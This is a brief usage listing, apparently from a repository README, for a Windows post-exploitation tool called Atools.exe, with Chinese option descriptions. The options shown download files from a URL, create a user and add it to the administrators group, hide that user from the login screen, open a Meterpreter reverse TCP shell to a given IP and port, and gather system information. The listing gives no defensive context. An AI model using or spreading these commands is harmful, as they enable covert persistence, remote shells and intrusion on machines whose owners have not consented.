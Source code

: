Atools.exe -h | help

Atools.exe -d url filename |下载

Atools.exe -u user pass |添加一个用户并加入到管理员组

Atools.exe -s user | 禁止交互式登陆时在登陆界面隐藏指定用户

Atools.exe -r ip port |windows/meterpreter/reverse_tcp

Atools.exe -i | 系统信息收集

